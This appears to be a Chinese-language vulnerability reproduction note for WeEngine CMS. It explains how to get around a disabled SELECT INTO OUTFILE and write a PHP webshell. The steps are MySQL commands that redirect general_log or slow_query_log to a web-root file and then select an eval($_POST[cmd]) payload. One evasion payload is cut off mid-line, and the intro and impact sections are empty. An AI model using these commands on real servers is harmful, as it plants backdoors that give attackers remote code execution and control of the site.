

微擎 绕过禁用函数写shell
========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1.站点设置里面打开调试

### 2.执行语句

select into被禁止

### 3.利用日志文件写shell

    show variables like '%general%';  #查看配置

    set global general_log = on;  #开启general log模式

    set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址

    select '<?php eval($_POST[cmd]);?>'  #写入shell

### 4.SQL查询免杀shell的语句

    SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$

### 补充:来自土司\@GuoKerSb的分享

在无法修改general\_log\_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow\_query\_log（慢查询日志，默认关闭）来写shell

    set global slow_query_log=1;
    set global slow_query_log_file='/var/www/html/1.php';
    select '<?php eval($_POST[cmd]);?>' or sleep(11);

四、参考链接
------------

> <https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html>
